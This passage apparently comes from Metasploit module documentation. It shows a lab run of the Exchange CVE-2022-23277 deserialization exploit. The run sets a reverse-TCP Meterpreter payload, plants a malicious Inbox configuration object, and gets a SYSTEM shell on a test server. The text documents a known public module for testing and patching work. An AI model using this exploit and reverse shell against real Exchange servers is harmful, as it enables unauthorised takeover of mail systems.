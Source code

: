 ```
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.2.986.15 is vulnerable to CVE-2022-23277
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAACLmD9luiUIToCqtjHJMHTFAAADDlsC
[+] ID value for Inbox folder is AQMkAGMzMmEwZDQyLTJmMmYtNDdlNi04Nzg0LTNiMmNmMTkwZmNjAGIALgAAAwy2SlsLo7NNtRvmAZGoLDABAIuYP2W6JQhOgKq2MckwdMUAAAIBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:63854) at 2022-08-16 15:49:45 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : EXCHANGE2019
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x86/windows
meterpreter >
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b
